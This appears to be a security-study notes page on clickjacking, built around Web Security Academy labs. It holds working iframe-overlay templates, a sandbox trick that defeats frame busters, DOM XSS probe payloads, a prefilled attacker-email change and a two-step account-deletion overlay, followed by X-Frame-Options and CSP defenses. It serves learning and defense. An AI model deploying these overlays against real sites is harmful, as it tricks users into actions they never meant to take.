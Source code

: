 # Clickjacking (UI Redressing)

Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.

The technique depends upon the invisible button or hidden link, say, within an iframe.

This attack differs from a CSRF attack in that the user is required to perform an action such as a button click whereas a CSRF attack depends upon forging an entire request without the user's knowledge or input.

Protection against CSRF attacks is often provided by the use of a CSRF token: a session-specific, single-use number or nonce. Clickjacking attacks are not mitigated by the CSRF token.

## How to construct a basic clickjacking attack

{% code overflow="wrap" fullWidth="true" %}
```sh
# Clickjacking use CSS. The attacker incorporates the target website as an iframe layer overlaid on the decoy website. 
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
The target website iframe is positioned within the browser so that there is a precise overlap of the target action
with the decoy website using appropriate width and height position values. 
Absolute and relative position values are used to ensure that the target website accurately overlaps the decoy 
regardless of screen size, browser type and platform. 
The z-index determines the stacking order of the iframe and website layers. 
The opacity value is defined as 0.0 (or close to 0.0) so that the iframe content is transparent to the user.
# EXAMPLE: Basic clickjacking with CSRF token protection - Input this as the body to deliver to the victim
- Locate dangerous button/function on a website that will be triggered when clickjacking is performed on our attack web
- Use iframe <iframe src="URL"></iframe>
- Check iframe works and can be seen
- Place style code, div and iframe
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1; # our div is 1 so it is placed at the top of the iframe
    }
</style>
<div>CLICK ME</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
- Test with predefined big values of width, height and set opacity to 0.1 / try top/left to 100px to start
- Now move the CLICK ME div (top/left) until we perfectly align it to our dangerous button
```
{% endcode %}

## Clickbandit

When you're testing for clickjacking in the wild, we recommend using Burp's Clickbandit tool instead. This lets you use your browser to perform the desired actions on the frameable page, then creates an HTML file containing a suitable clickjacking overlay.

## Clickjacking with prefilled form input

Victim could be tricked to click a button that is sending GET parameters (data) via a transparent "submit" button. That info might be sent to the malicious website hosted by the attacker.

{% code overflow="wrap" fullWidth="true" %}
```sh
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
{% endcode %}

## Frame busting scripts

A common client-side protection enacted through the web browser is to use frame busting or frame breaking scripts. These can be implemented via proprietary browser JavaScript add-ons or extensions such as NoScript. Scripts are often crafted so that they perform some or all of the following behaviors:

* check and enforce that the current application window is the main or top window,
* make all frames visible,
* prevent clicking on invisible frames,
* intercept and flag potential clickjacking attacks to the user.

{% code overflow="wrap" fullWidth="true" %}
```sh
# An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. 
# When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted 
# then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window: 
# NOTE: mind the browser (Firefox, Chrome) to attack the victim. If victim is using Chrome, we use the same browser.
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```
{% endcode %}

## Combining clickjacking with a DOM XSS attack

The true potency of clickjacking is revealed when it is used as a carrier for another attack such as a DOM XSS attack. First XSS exploit has to be identified, then XSS exploit is combined with the iframe target URL so that the user clicks on the button or link and consequently executes the DOM XSS attack.

{% code overflow="wrap" fullWidth="true" %}
```sh
# EXAMPLE
- Find a place where we can submit feedback, post comments, etc.
- Try XSS payloads such as <script>alert(1)</script> and <img
- Find that <img src=1 onerror=alert(1)> works on the name parameter of submit feedback
- Follow the same pattern as before to deliver clickjacking exploit on /feedback?name=...
```
{% endcode %}

## Multistep clickjacking

Attacker manipulation of inputs to a target website may necessitate multiple actions (implemented using multiple divisions or iframes). Such attacks require considerable precision and care from the attacker perspective to be effective and stealthy.

{% code overflow="wrap" fullWidth="true" %}
```sh
# EXAMPLE: confirmation dialog to protect against Clickjacking. 
# Construct an attack that fools the user into clicking the delete account button and the confirmation dialog 
# by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab. 
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    .firstClick, .secondClick {
        position:absolute;
        top:495px;
        left:45px;
        z-index: 1;
    }
    .secondClick {
        top:295px;
        left:205px;
    }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0af70061041be73b8114acc0001e006d.web-security-academy.net/my-account"></iframe>
```
{% endcode %}

## How to prevent clickjacking attacks

{% code overflow="wrap" fullWidth="true" %}
```sh
#################### X-Frame-Options
# The header provides control over the use of iframesso that inclusion of a web page within a frame can be denied:
X-Frame-Options: deny
# Alternatively, framing can be restricted to the same origin as the website using the sameorigin directive
X-Frame-Options: sameorigin
# or to a named website using the allow-from directive:
X-Frame-Options: allow-from https://normal-website.com
# X-Frame-Options is not implemented consistently across browsers -> use it w/ CSP as multi-defense layer

#################### Content Security Policy (CSP)
# CSP is a detection and prevention mechanism that provides mitigation against attacks such as XSS and clickjacking.
Content-Security-Policy: policy
# where policy is a string of policy directives separated by semicolons.
# Recommended clickjacking protection -> frame-ancestors directive (
Content-Security-Policy: frame-ancestors 'none'; # similar to deny on X-Frame-Options
# frame-ancestors 'self' directive is broadly equivalent to the X-Frame-Options sameorigin directive
Content-Security-Policy: frame-ancestors 'self'; # whitelists frames to the same domain only
# Alternatively, framing can be restricted to named sites:
Content-Security-Policy: frame-ancestors normal-website.com; 
```
{% endcode %}
